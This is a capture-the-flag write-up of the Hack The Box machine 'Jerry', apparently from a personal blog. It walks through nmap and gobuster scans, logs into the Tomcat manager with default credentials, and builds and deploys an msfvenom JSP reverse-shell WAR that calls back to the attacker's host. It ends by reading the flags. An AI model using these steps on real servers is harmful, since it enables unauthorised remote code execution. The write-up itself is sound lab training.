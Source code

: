 ```yaml
---
layout: PostSimple
date: 2020-04-20
title:     "Hack The Box - Jerry"
tags: ['windows','easy','tomcat']
layout: PostSimple
---
```



![694398c04fbbb4b4c6b507180ee3fb06.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/70f494906c3d48118c3b9a09dc3e7620.png)

We are going to pwn Jerry from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/144>

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTP:

Only HTTP Port is open, and its running `Tomcat` service and its version is `7.0.88`. We get the default tomcat configuration page.


![679f2e5cfa08b4e9f4bbcebeed0010af.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/763886848f9a45c6aac20183903457fe.png)


## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/20 10:22:14 Starting gobuster
===============================================================
/aux (Status: 200)
/com1 (Status: 200)
/com2 (Status: 200)
/com3 (Status: 200)
/con (Status: 200)
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/lpt1 (Status: 200)
/lpt2 (Status: 200)
/manager (Status: 302)
===============================================================
2020/04/20 10:24:23 Finished
===============================================================
```

`/manager`
There is a login page for manager.So let’s try to access it .
![a0986527fad314f30d5833f4792350ad.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/76e47a71750346bbadcb1f91634d868f.png)
The default login credentials for Tomcat. You can get [here](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown).

Logged in successfully with `tomcat : s3cret`


![adeb7712828d540a6af85e0050add2d8.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/2c7cfa06a42540c8ad26bc835670ba73.png)

Here we can see the information about the box.


![1163529f91334808e8417d5e61f4825f.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/af8940be7c0141c4a88476e5b0ca0925.png)

There is a option to upload `WAR` files.


![ea70bbc644929d40c4fdc22a7bdcb11c.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/e12823f25b6d4e80a75bab9783e40150.png)

> WAR file is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages and other resources that together constitute a web application.

We can use `msfvenom` for generating a `.war` format payload.
```
root@w0lf:~/CTF/HTB/Boxes/Jerry# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
```
## Getting Shell:


![1f6a90af94b8fa8eb5ec47af6aa16476.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/27cfc16afbfa4949aac984950183cbaf.png)

The file name is `shell.war` so I can access it as `/shell`

![46508d9cfbb7f76846acbd7434f520bf.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/a779bab5194b478c98de5c4e91c7da8f.png)

```
C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator

06/18/2018  11:31 PM    <DIR>          .
06/18/2018  11:31 PM    <DIR>          ..
06/19/2018  06:43 AM    <DIR>          Contacts
06/19/2018  07:09 AM    <DIR>          Desktop
06/19/2018  06:43 AM    <DIR>          Documents
06/19/2018  06:43 AM    <DIR>          Downloads
06/19/2018  06:43 AM    <DIR>          Favorites
06/19/2018  06:43 AM    <DIR>          Links
06/19/2018  06:43 AM    <DIR>          Music
06/19/2018  06:43 AM    <DIR>          Pictures
06/19/2018  06:43 AM    <DIR>          Saved Games
06/19/2018  06:43 AM    <DIR>          Searches
06/19/2018  06:43 AM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,602,595,840 bytes free
               
C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
70----------------------------00

root.txt
04----------------------------0e
               

```
